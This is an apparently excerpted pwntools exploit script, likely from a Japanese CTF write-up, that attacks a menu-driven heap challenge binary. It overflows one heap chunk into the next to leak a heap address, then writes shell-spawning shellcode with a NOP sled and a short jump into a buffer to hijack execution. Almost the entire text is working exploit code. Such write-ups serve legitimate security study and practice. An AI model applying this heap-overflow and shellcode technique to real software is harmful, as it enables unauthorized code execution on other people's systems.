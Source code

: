 ```python
# login
r.recvuntil('Enter username: ')
r.sendline(username)
r.recvuntil('Enter Pass: ')
r.sendline(password)
r.recvuntil('I) Request Exploit.')
log.success('login successful!')

def choose_action(n):
    r.recvuntil(') Go Away.\n| ')
    r.sendline(str(n))

def add_request(text):
    choose_action(1)
    r.recvuntil('Request text > ')
    r.send(text)

def delete_request(n):
    choose_action(3)
    r.recvuntil('choice: ')
    r.sendline(str(n))

def update_request(n, text):
    choose_action(4)
    r.recvuntil('choice: ')
    r.sendline(str(n))
    r.recvuntil('data: ')
    r.send(text)

def go_away():
    choose_action(5)

log.info('alloc 0x38 bytes buffer x5')
for i in range(0, 5):
    add_request('buffer{}'.format(i))

log.info('free buffer3 and buffer1')
for i in [3, 1]:
    delete_request(i)

log.info('overwrite chunk4 via buffer2')
buf = ''
buf += 'A' * buffer_size    # buffer2
buf += 'A' * 8              # chunk4's size
buf += 'A' * 8              # chunk4's fd
update_request(2, buf)

log.info('leak chunk4\'s bk')
choose_action(2)
r.recvuntil(buf)
leak = r.recvuntil('\n')[:-1]
addr_chunk2    = u64(leak + '\x00' * (8 - len(leak)))
addr_heap_base = addr_chunk2 - 0x60
log.success('addr_chunk2:    0x{:x}'.format(addr_chunk2))
log.success('addr_heap_base: 0x{:x}'.format(addr_heap_base))

log.info('write shellcode to buffer0')
buf = ''
buf += asm(shellcraft.sh())
buf += '\x90' * (buffer_size - 8 - len(buf))    # buffer0
buf += '\xeb\xce'       # $ rasm2 -a x86 -b 64 'jmp -0x30'
buf += '\x90' * (0x80 - len(buf))
update_request(0, buf)
```

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)